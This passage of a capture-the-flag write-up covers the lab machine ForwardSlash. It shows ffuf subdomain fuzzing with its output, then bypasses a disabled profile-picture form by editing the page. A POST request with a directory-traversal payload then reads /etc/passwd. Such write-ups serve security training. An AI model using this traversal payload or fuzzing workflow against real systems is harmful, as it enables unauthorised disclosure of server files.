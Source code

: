 ```
$ ffuf -u http://10.10.10.183/ -r -c -w ~/CTF/tools/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt -H 'Host: FUZZ.forwardslash.htb' -fs 1695

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.1.0-git
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.183/
 :: Wordlist         : FUZZ: /home/cyfun/CTF/tools/SecLists/Discovery/Web-Content/raft-small-words-lowercase.txt
 :: Header           : Host: FUZZ.forwardslash.htb
 :: Follow redirects : true
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: 1695
________________________________________________

backup                  [Status: 200, Size: 1267, Words: 336, Lines: 40]
:: Progress: [38267/38267]┬á:: Job [1/1] :: 708 req/sec :: Duration: [0:00:54] :: Errors: 0 ::
```

So let's add `backup.forwardslash.htb` to `/etc/hosts` too.

```
10.10.10.183 backup.forwardslash.htb
```

We are redirected to http://backup.forwardslash.htb/login.php

There is a login form. We can use the registration page to sign up.

If we sign up and log in, we are redirected to http://backup.forwardslash.htb/welcome.php

### HTTP exploitation: file disclosure & directory traversal

The _Change your Profile Picture!_ feature is disabled.

But that's just from the HTML so let's edit the DOM, remove the `disabled`
attributes and send a request:

By doing a directory traversal on `/etc/passwd` we obtained a file disclosure:

```
POST /profilepicture.php HTTP/1.1
Host: backup.forwardslash.htb
...
Cookie: PHPSESSID=mbmjmv76c2veso4c1ihneuh5bt

url=..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd
```
